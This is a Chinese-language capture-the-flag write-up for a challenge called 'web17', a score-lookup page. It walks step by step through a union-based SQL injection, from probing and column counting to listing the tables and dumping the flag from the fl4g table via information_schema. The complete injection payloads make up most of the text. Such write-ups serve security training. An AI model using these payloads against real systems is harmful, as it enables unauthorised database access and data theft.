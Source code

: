 # web17



![image-20210116204114667](../../..//image/image-20210116204114667.png)

进入环境

![image-20210116204208447](../../..//image/image-20210116204208447.png)

成绩查询

估计是sql注入

先试试

有没有注入点

输入了一个1’

![image-20210116204323060](../../..//image/image-20210116204323060.png)

有回显

说明有注入点

查看有多少个字段

使用二分制测试

```sql
1' order by 4#
```

![image-20210116204746099](../../..//image/image-20210116204746099.png)



回显正常

说明测试这个表出有4个字段

使用联合查询查看字段所显示的位置

```
-1' union select 1,2,3,4 #
```

![image-20210116205304815](../../..//image/image-20210116205304815.png)

然后查询数据库

```sql
-1' union select database(),2,3,4 #
```

![image-20210116205716940](../../..//image/image-20210116205716940.png)



得到数据库名

> skctf

然后查询表名

```sql
-1' union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='skctf'#
```

也可以使用这一句

这一句就不需要知道数据库的名字

```sql
-1' union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()#
```

![image-20210116211523015](../../..//image/image-20210116211523015.png)

得到表明

> fl4g,sc

flag在fl4g里

接下来查字段

```
-1' union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name = 'fl4g'#
```

![image-20210116211703512](../../..//image/image-20210116211703512.png)

得到字段名

查字段的内容

```sql
-1' union select 1,skctf_flag,3,4 from fl4g#
```

![image-20210116211818667](../../..//image/image-20210116211818667.png)

得到flag



















